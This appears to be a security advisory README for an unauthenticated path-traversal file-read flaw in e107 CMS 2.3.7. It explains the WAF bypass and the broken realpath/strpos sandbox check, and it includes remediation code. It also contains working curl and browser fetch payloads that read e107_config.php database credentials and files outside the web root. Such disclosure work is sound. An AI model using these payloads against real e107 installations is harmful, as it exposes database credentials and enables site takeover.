


# e107 CMS 2.3.7 — Unauthenticated Arbitrary File Read (Path Traversal)

> An unauthenticated remote attacker can read **any file on the web-server's
> volume** — including `e107_config.php` (database credentials), full application
> source, and PHP session files — through the download request handler.

| | |
|---|---|
| **Product** | e107 CMS |
| **Affected version** | 2.3.7 (and prior 2.x sharing this code path) |
| **Vulnerability type** | Path Traversal → Arbitrary File Read (Information Disclosure) |
| **CWE** | CWE-22, CWE-23, CWE-552 (contributing CWE-697) |
| **OWASP** | A01:2021 – Broken Access Control |
| **Authentication** | ❌ Not required |
| **User interaction** | ❌ None |
| **Attack vector** | 🌐 Network / Remote |
| **CVSS v3.1** | **7.5 (High)** — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **Component** | `e107_plugins/download/request.php`, `e107_handlers/file_class.php` |

---

## Summary

`e107_plugins/download/request.php` builds a filesystem path by concatenating the
**raw HTTP query string** onto the downloads directory and streams it to the
client via `e_file::send()`:

```php
// e107_plugins/download/request.php
elseif(file_exists(e_DOWNLOAD . e_QUERY) && !is_dir(e_DOWNLOAD . e_QUERY)) {
    e107::getFile()->send(e_DOWNLOAD . e_QUERY);   // e_QUERY = attacker input
    exit();
}
```

Two compounding defects turn this into unauthenticated arbitrary file read.

### Root cause 1 — WAF bypass
`e107_class::filter_request()` inspects the **raw** `QUERY_STRING` and blocks only
the literal substring `../../`. Backslashes (`..\`) and URL-encoded separators
(`..%2f`, `..%5c`) are **not** blocked, and decoding to real path separators
happens *after* the check.

### Root cause 2 — broken sandbox comparison (`e_file::send()`)
```php
$path_public = realpath($FILES_DIRECTORY . "public/");   // e107_files/public MISSING -> false
if(strpos($path,$path_downloads)===false && strpos($path,$path_public)===false
   && strpos($path,$MEDIA_DIRECTORY)===false && strpos($path,$SYSTEM_DIRECTORY)===false) {
    /* reject */
}
```
`e107_files/public/` does not exist in a standard e107 **v2** install, so
`realpath()` returns `false`. In PHP 8, `strpos($path, false)` coerces the needle
to `""` and `strpos($x,"") === 0`, so `... === false` becomes **`false`**. One
false term collapses the whole `&&` chain → the rejection is skipped → **any file
is served**.



---

## Proof of Concept

All of these return **HTTP 200** with the target file's bytes (no cookies/auth):

```bash
# Database credentials (e107_config.php)
curl -s -D - "http://TARGET/e107/e107_plugins/download/request.php?..\..\..\e107_config.php"

# Cross-platform / browser-deliverable variant (encoded slashes)
curl -s "http://TARGET/e107/e107_plugins/download/request.php?..%2f..%2f..%2fe107_config.php"

# 'pub_' branch
curl -s "http://TARGET/e107/e107_plugins/download/request.php?pub_..\..\..\e107_config.php"

# A file OUTSIDE the web root
curl -s "http://TARGET/e107/e107_plugins/download/request.php?..\..\..\..\..\php\php.ini"
```

**Control test** (proves the WAF bypass) — literal forward slashes are blocked:
```bash
curl -s -o /dev/null -w "%{http_code}\n" \
  "http://TARGET/e107/e107_plugins/download/request.php?../../../e107_config.php"
# 400
```

### Evidence — leaking `e107_config.php` (DB credentials), unauthenticated


### Evidence — reading a file OUTSIDE the web root (`php.ini`)


### Browser reproduction (real browser, same-origin `fetch`)
```js
const b = location.origin + '/e107/e107_plugins/download/request.php';
const r = await fetch(b + '?..%2f..%2f..%2fe107_config.php', {credentials:'omit'});
// r.status === 200
// r.headers.get('content-disposition') === 'attachment; filename="e107_config.php"'
// (await r.text()) contains $mySQLuser / $mySQLpassword / site_path
```
> Browsers normalize `\`→`/`, so the browser-delivered payload uses the `..%2f`
> encoded-slash variant, which survives normalization and is platform-independent.
> A victim merely visiting an attacker page (or clicking a link) triggers the
> download of arbitrary server files.

---

## Exploit demo (animated)


---

## Impact

Unauthenticated disclosure of any file on the server volume, including:

- **`e107_config.php`** → MySQL credentials and `site_path` hash
- **Full application source** → aids discovery of further vulnerabilities
- **PHP session files** (`session.save_path = H:\XAMPP\tmp`, same volume) → if a
  valid session id is obtained, **admin session hijacking / auth bypass**
- XAMPP / OS configuration files on the same volume

This is a full confidentiality compromise and a stepping stone to complete
takeover.

---

## Remediation

1. **Fix the sandbox in `e_file::send()`** so a `false`/missing root can never
   satisfy the check; reject when `realpath($file) === false`; compare canonical
   prefixes with a trailing separator:
   ```php
   $path = realpath($filename);
   if ($path === false) { header('Location: '.e_BASE); exit; }
   $roots = array_filter([
       realpath($DOWNLOADS_DIRECTORY),
       realpath($FILES_DIRECTORY.'public/'),
       realpath(e_MEDIA),
       realpath(e_SYSTEM),
   ]); // drop false entries
   $ok = false;
   foreach ($roots as $root) {
       if (strncmp($path, $root.DIRECTORY_SEPARATOR, strlen($root)+1) === 0) { $ok = true; break; }
   }
   if (!$ok) { header('Location: '.e_BASE); exit; }
   ```
2. **In `download/request.php`**, never build filesystem paths from the raw query
   string — resolve downloads strictly by numeric id / DB key.
3. **Harden `filter_request()`** to URL-decode/normalize before matching and to
   block `\` and encoded separators, not only `../../`.

---

## Files in this folder

| File | Description |
|------|-------------|
| `cve-request.txt` | Plain-text CVE request (MITRE format) with full PoC |
| `evidence/proof_F1_config_read.png` | Unauthenticated 200 response leaking DB credentials |
| `evidence/proof_F1_outside_webroot.png` | Reading `php.ini` from outside the web root |
| `evidence/proof_rootcause.png` | WAF-bypass matrix + realpath/`strpos` defect |
| `evidence/exploit_demo.gif` | 6-frame animated exploit walkthrough |

## Disclosure

Found during an authorized localhost security assessment of e107 2.3.7.
All testing was performed against a local instance only; no external systems were
contacted. Reported for responsible disclosure to the e107 project.
